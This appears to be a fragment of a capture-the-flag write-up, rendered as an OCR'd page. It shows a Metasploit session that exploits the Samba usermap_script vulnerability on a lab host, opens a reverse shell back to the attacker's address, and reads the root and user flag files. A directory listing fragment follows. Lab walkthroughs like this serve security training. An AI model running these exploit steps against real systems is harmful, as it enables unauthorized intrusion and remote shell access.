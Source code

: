 ```
   0   Automatic


msf exploit(usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(usermap_script) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(usermap_script) > set LHOST 10.10.13.126
LHOST => 10.10.13.126
msf exploit(usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.13.126:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo g2J1cK9h6SBFE0RL;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "g2J1cK9h6SBFE0RL\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.13.126:4444 -> 10.10.10.3:50926) at 2017-05-17 17:31:24 +0100

cd root
cat root.txt
92caac3be140ef409e45721348a4e9df
cd /home/makis
cat user.txt
69454a937d94f5f0225ea00acd2e84c5
```







ls

bin

boot

cdrom

dev

etc

home

initrd

initrd.img

lib

